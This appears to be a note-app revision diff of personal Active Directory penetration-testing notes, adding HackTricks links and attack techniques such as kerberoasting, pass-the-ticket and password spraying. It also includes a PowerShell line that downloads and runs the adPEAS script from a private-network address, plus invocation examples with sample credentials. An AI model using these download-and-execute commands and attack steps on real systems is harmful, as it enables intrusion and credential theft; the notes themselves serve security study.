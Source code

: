 id: 0aa0e189fc7148d6a96c21888eaf6ff9
parent_id: ad9317d6053d41eba6813c6202497429
item_type: 1
item_id: a11afaa273734c1cb355f718651db3df
item_updated_time: 1653023123505
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"hodology\"],[-1,\" \"],[0,\"\\\n\\\nhttps:\"]],\"start1\":262,\"start2\":262,\"length1\":17,\"length2\":16},{\"diffs\":[[0,\"nd)\\\n\"],[-1,\"\\\nPass-The-Ticket - Note that after a restart the ticket may not be valid\\\n\\\nBloodHound Detection\\\n\\\n1.  Kerberoasting\\\n2.  ASREPRoasting - If user don't have attribute DONT\\\\_REQ\\\\_PREAUTH; Request a AS_REP message\\\n\\\nBruteForce/PasswordSpray\"],[1,\"> \\\n> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key\\\n> \\\n> https://book.hacktricks.xyz/windows-hardening/ntlm#pass-the-hash\\\n\\\nPass-The-Ticket - Note that after a restart the ticket may not be valid\\\n\\\n> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast\\\n> \\\n> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket\\\n\\\nBloodHound Detection\\\n\\\n1.  Kerberoasting\\\n2.  ASREPRoasting - If user don't have attribute DONT\\\\_REQ\\\\_PREAUTH; Request a AS_REP message\\\n\\\nBruteForce/PasswordSpray\\\n\\\nLocal Privilege Escalation - Normal \\\"Domain User\\\" have no privileges across machines. Local Admin Privileges can dump hashes of other users in memory and locally\\\n\\\nMsSQL Tursted Links\\\n\\\nUnconstrained Delegation\\\n\\\nConstrained Delegation\\\n\\\n![f60450c52b865087e0115c6de30378dd.png](:/4960fa7f05dd4d41869329273c58b72e)\"],[0,\"\\\n\\\n# \"]],\"start1\":598,\"start2\":598,\"length1\":241,\"length2\":919},{\"diffs\":[[0,\"T techniques\"],[1,\".\\\n\\\n# ADPeaS\\\n\\\nIn ~/ADLibs\\\n\\\nhttps://github.com/61106960/adPEAS\\\n\\\n> IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.154/adPEAS.ps1')\\\n> \\\n> `Invoke-adPEAS -Domain 'contoso.com'`\\\n> \\\n> `Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com'`\\\n> \\\n> `$SecPassword = ConvertTo-SecureString 'Passw0rd1!' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('contoso\\\\johndoe', $SecPassword) Invoke-adPEAS -Domain 'contoso.com' -Cred $Cred`\\\n> \\\n> `Invoke-adPEAS -Domain contoso.com -Username 'contoso\\\\johndoe' -Password 'Passw0rd1!'`\\\n> \\\n> `Invoke-adPEAS -Module Bloodhound -Scope All`\"]],\"start1\":2390,\"start2\":2390,\"length1\":12,\"length2\":632}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-20T05:07:58.764Z
created_time: 2022-05-20T05:07:58.764Z
type_: 13